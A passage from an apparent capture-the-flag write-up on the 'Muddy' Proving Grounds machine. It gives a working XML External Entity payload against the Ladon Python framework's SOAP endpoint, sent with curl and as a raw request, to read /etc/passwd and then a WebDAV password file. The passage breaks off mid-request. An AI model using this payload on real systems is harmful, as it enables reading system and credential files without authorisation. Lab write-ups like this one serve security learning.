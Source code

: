 The framework Laden is vulnerable to [Ladon Framework for Python 0.9.40 - XML External Entity Expansion](https://www.exploit-db.com/exploits/43113) vulnerabilty.

### Exploitation

```text
curl -i -s -k -X $'POST' \
    -H $'Host: muddy.ugc:8888' -H $'User-Agent: curl/7.87.0' -H $'Accept: */*' -H $'Content-Type: text/xml;charset=UTF-8' -H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/sayhello\"' -H $'Content-Length: 496' -H $'Connection: close' \
    --data-binary $'<?xml version=\"1.0\"?>\x0a<!DOCTYPE uid\x0a[<!ENTITY passwd SYSTEM \"file:///etc/passwd\">\x0a]>\x0a<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\x0axmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"\x0axmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"\x0axmlns:urn=\"urn:HelloService\"><soapenv:Header/>\x0a<soapenv:Body>\x0a<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\x0a<uid xsi:type=\"xsd:string\">&passwd;</uid>\x0a</urn:checkout>\x0a</soapenv:Body>\x0a</soapenv:Envelope>' \
    $'http://muddy.ugc:8888/muddy/soap11'
```

> **Note:** Change the `urn` element as per the method allowed in the application.

![img](/assets/images/CTF/Proving_Grounds/Muddy/web3.png)

Replace the `/etc/passwd` with `/var/www/html/webdav/passwd.dav` to get the `webdav` credentials.

**Request**

```text
POST /muddy/soap11 HTTP/1.1
Host: muddy.ugc:8888
User-Agent: curl/7.87.0
Accept: */*
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://muddy.ugc:8888/muddy/soap11/sayhello"
Content-Length: 514
Connection: close

<?xml version="1.0"?>
<!DOCTYPE uid
[
<!ENTITY passwd SYSTEM "file:/var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope
```